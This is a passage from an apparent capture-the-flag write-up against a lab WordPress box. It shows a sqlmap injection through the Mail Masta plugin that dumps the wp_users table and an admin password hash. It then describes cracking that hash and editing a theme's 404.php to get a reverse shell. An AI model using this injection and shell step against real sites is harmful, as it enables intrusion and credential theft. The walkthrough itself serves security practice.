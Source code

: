 ```sh
| wp_reflex_gallery_images              |
| wp_term_relationships                 |
| wp_term_taxonomy                      |
| wp_termmeta                           |
| wp_terms                              |
| wp_usermeta                           |
| wp_users                              |
+---------------------------------------+

$ sqlmap -u "http://box.ip/wordpress/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0&pl=/var/www/html/wordpress/wp-load.php" -p list_id --dbms mysql -T wp_users --dump
Database: wordpress
Table: wp_users
[1 entry]
+----+--------------------------------+------------------------------------+---------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url                       | user_pass                          | user_email    | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+--------------------------------+------------------------------------+---------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://192.168.8.110/wordpress | $P$BhwVLVLk5fGRPyoEfmBfVs82bY7fSq1 | none@none.com | elyana     | 0           | elyana       | elyana        | 2020-10-05 19:55:50 | <blank>             |
+----+--------------------------------+------------------------------------+---------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```

With the dumped password hash, we can attempt to crack it (some rules required) to get credentials to log into WordPress.

### WordPress Administrator RCE

After logging into WordPress, we can edit themes so let's edit a PHP file of a theme (I'm doing theme twentynineteen since it's inactive, file `404.php` so it's `/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen`) to run a reverse shell.

![](revshell.png)
